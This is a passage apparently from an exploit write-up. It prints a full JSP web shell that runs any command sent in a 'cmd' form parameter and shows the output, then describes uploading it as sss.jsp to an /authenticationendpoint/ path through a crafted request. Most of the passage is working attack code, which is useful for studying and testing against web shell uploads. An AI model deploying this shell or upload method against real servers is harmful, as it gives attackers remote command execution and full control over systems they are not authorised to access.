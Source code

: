 ```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

Let's modify the request and send a new request containing the web shell file having the name `sss.jsp`.
This file will be uploaded at the `/authenticationendpoint/sss.jsp` endpoint.

![crafted_request.png](../media/crafted_request.png)
